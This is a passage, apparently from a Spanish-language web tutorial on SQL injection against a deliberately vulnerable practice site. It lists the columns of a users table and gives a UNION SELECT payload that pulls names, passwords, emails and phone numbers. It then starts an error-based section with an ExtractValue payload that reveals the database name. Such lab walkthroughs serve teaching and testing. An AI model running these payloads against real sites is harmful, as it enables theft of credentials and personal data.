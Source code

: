 . cc

. email

. name

. pass

. phone

. uname

<br>
Extrayendo la información:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">UNION SELECT 1,2,3,4,5,6,concat(name,':',pass,':',email,':',phone),8,9,10,11 FROM acuart.users;#</font></pre>

![extrayendo](/assets/img/screens/extrayendo_1.png)

<br>
<h4 id="Basada en Error">Basada en Error (Error Based)</h4>


Visualizando el nombre de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">UNION SELECT ExtractValue('algo', concat('`', (SELECT database())));#</font></pre>
